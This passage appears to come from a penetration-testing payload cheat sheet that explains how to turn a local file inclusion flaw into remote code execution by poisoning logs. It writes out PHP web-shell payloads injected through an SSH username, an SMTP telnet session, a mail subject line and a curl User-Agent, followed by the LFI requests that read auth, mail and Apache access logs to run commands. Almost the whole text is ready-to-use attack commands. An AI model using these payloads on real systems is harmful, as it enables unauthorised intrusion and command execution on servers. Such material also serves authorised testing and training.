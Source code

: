 Try to ssh into the box with a PHP code as username `<?php system($_GET["cmd"]);?>`.

```powershell
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
```

Then include the SSH log files inside the Web Application.

```powershell
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```


### RCE via Mail

First send an email using the open SMTP then include the log file located at `http://example.com/index.php?page=/var/log/mail`.

```powershell
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```

In some cases you can also send the email with the `mail` command line.

```powershell
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```


### RCE via Apache logs

Poison the User-Agent in access logs:

```
$ curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
```

Note: The logs will escape double quotes so use single quotes for strings in the PHP payload.

Then request the logs via the LFI and execute your command.

```
$ curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
```
